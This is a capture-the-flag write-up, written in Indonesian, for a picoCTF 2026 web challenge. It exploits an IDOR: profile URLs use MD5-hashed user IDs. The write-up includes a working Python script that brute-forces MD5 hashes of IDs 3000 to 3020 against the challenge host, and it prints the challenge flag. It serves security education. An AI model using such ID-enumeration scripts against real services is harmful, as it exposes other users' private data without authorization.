


# No FA / Hashgate — picoCTF 2026

| Informasi | Detail |
|---|---|
| Event | picoCTF 2026 |
| Challenge | No FA / Hashgate |
| Kategori | Web Exploitation |
| Poin | 100 |
| Difficulty | Medium |
| Author | Yahaya Meddy |

## Deskripsi Challenge

Challenge ini memberikan akses ke sebuah portal organisasi. User diminta melakukan login menggunakan email dan password, lalu aplikasi akan mengarahkan user ke halaman profil. Namun, deskripsi challenge memberi indikasi bahwa akses ke profil admin tidak benar-benar aman walaupun tidak ditampilkan secara langsung.

Deskripsi challenge:

```text
You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn’t directly exposed doesn’t mean it’s secure. Maybe someone forgot that obscurity isn’t security... Can you find your way into the admin’s profile for this organisation and capture the flag?
```

Hint yang diberikan:

```text
1. Notice anything about how the ID is being checked? It’s not plain text… maybe a one-way function is involved.
2. There are about 20 employees in this organisation.
```

Dari hint tersebut, terlihat bahwa challenge mengarah ke kelemahan pada mekanisme identifikasi user. ID user kemungkinan tidak disimpan dalam bentuk plain text, tetapi dalam bentuk hasil hash. Karena jumlah employee hanya sekitar 20, kemungkinan ID tersebut dapat ditebak atau di-bruteforce.

## Reconnaissance / Analisis Awal

Pertama, saya membuka website challenge dan mencoba memahami alur login. Pada halaman awal, aplikasi meminta email dan password.



Karena belum memiliki credential, saya melakukan inspeksi source halaman menggunakan fitur view source pada browser. Dari komentar HTML, ditemukan credential guest yang valid.

```html
<!-- Email: guest@picoctf.org Password: guest -->
```


Credential yang ditemukan:

```text
Email: guest@picoctf.org
Password: guest
```

Setelah login menggunakan credential tersebut, aplikasi mengarahkan saya ke halaman profil user guest.

```text
http://crystal-peak.picoctf.net:64934//profile/user/e93028bdc1aacdfb3687181f2031765d
```

Pada halaman tersebut, aplikasi menampilkan informasi berikut:

```text
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
```

Dari sini ada dua informasi penting:

1. User guest memiliki ID `3000`.
2. URL profil tidak menggunakan ID `3000` secara langsung, tetapi menggunakan string hash `e93028bdc1aacdfb3687181f2031765d`.

Nilai pada endpoint kemudian dianalisis menggunakan hash analyzer. Hasilnya menunjukkan bahwa hash tersebut kemungkinan adalah MD5.


Untuk memastikan, hash `e93028bdc1aacdfb3687181f2031765d` dicoba pada MD5 decrypt/hash lookup dan hasilnya adalah `3000`.

```text
Hash  : e93028bdc1aacdfb3687181f2031765d
Plain : 3000
Type  : MD5
```


Artinya, format endpoint profil dapat disimpulkan sebagai berikut:

```text
/profile/user/md5(user_id)
```

## Vulnerability Identified

Vulnerability utama pada challenge ini adalah **Insecure Direct Object Reference (IDOR)** yang disamarkan menggunakan hash MD5.

Aplikasi menggunakan hash MD5 dari ID user sebagai identifier pada URL profil:

```text
/profile/user/e93028bdc1aacdfb3687181f2031765d
```

Masalahnya, MD5 bukan mekanisme kontrol akses. MD5 hanya fungsi hash satu arah, bukan sistem otorisasi. Jika attacker mengetahui pola input yang di-hash, attacker dapat menghitung hash untuk ID lain dan mengakses resource milik user lain.

Celah ini bisa terjadi karena aplikasi tampaknya hanya mengecek identifier pada URL, bukan memvalidasi apakah user yang sedang login memang berhak mengakses profil tersebut. Dengan kata lain, aplikasi mengandalkan obscurity: ID asli disembunyikan dengan MD5, tetapi tidak ada authorization check yang kuat di sisi server.

Kenapa eksploitasi memungkinkan:

1. ID guest diketahui dari halaman profil, yaitu `3000`.
2. Hash pada URL terbukti merupakan MD5 dari ID tersebut.
3. Hint menyebutkan ada sekitar 20 employee, sehingga range ID dapat ditebak.
4. Aplikasi menerima hash user lain pada URL dan menampilkan profil yang sesuai.
5. Ketika hash milik admin ditemukan, halaman admin menampilkan flag.

Secara konsep, ini adalah bentuk IDOR karena attacker dapat mengganti identifier objek pada request untuk mengakses objek lain yang seharusnya tidak boleh diakses.

## Exploitation Steps

### 1. Menemukan credential guest

Saya membuka source halaman login dan menemukan komentar HTML berisi credential guest.

Payload/informasi yang ditemukan:

```html
<!-- Email: guest@picoctf.org Password: guest -->
```

Credential:

```text
Email: guest@picoctf.org
Password: guest
```

### 2. Login sebagai guest

Credential tersebut digunakan untuk login ke aplikasi.

```text
Email: guest@picoctf.org
Password: guest
```

Setelah login, saya diarahkan ke URL profil berikut:

```text
http://crystal-peak.picoctf.net:64934//profile/user/e93028bdc1aacdfb3687181f2031765d
```

Output pada halaman profil guest:

```text
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
```

### 3. Menganalisis hash pada URL

Hash dari URL profil guest:

```text
e93028bdc1aacdfb3687181f2031765d
```

Hash tersebut dianalisis menggunakan hash analyzer dan terdeteksi sebagai MD5. Setelah dicoba pada MD5 decrypt/hash lookup, hasilnya adalah:

```text
e93028bdc1aacdfb3687181f2031765d -> 3000
```

Secara benar, relasinya adalah:

```text
MD5("3000") = e93028bdc1aacdfb3687181f2031765d
```

Dengan informasi ini, saya mengetahui bahwa aplikasi membentuk endpoint profil dari hash MD5 ID user.

### 4. Membuat script brute force ID employee

Karena hint menyebutkan jumlah employee sekitar 20, saya melakukan brute force ID dari `3000` sampai `3020`. Untuk setiap ID, script akan menghitung MD5, membentuk URL profil, lalu mengirim request ke endpoint tersebut.

Script exploit yang digunakan:

```python
import hashlib
import requests

BASE_URL = "http://crystal-peak.picoctf.net:64934//profile/user/{}"

for i in range(3000, 3021):
    md5_hash = hashlib.md5(str(i).encode()).hexdigest()
    url = BASE_URL.format(md5_hash)

    try:
        r = requests.get(url, timeout=5)

        print(f"[{i}] {md5_hash} -> HTTP {r.status_code}")

        if r.status_code == 200:
            print("=" * 50)
            print(f"FOUND: {i}")
            print(f"HASH : {md5_hash}")
            print(f"URL  : {url}")
            print(r.text[:1000])
            print("=" * 50)

    except Exception as e:
        print(f"[!] Error {i}: {e}")
```

Script tersebut disimpan sebagai file [`exploit.py`](exploit.py).

### 5. Menjalankan exploit

Command untuk menjalankan script:

```bash
python3 exploit.py
```

Output penting dari exploit:

```text
FOUND: 3012
HASH : 5a01f0597ac4bdf35c24846734ee9a76
URL  : http://crystal-peak.picoctf.net:64934//profile/user/5a01f0597ac4bdf35c24846734ee9a76
```



ID `3012` menghasilkan hash berikut:

```text
5a01f0597ac4bdf35c24846734ee9a76
```

Ketika URL tersebut dibuka, aplikasi menampilkan profil admin dan flag.

```text
Welcome, admin! Here is the flag: picoCTF{id0r_unl0ck_090019fc}
```

## Flag

```text
picoCTF{id0r_unl0ck_090019fc}
```

## Lesson Learned

Menyembunyikan ID menggunakan hash seperti MD5 tidak sama dengan menerapkan kontrol akses. Setiap request yang mengakses data user harus divalidasi di sisi server untuk memastikan user yang sedang login memang memiliki izin terhadap resource tersebut.

Writer : Muhammad Afif Nuromlli
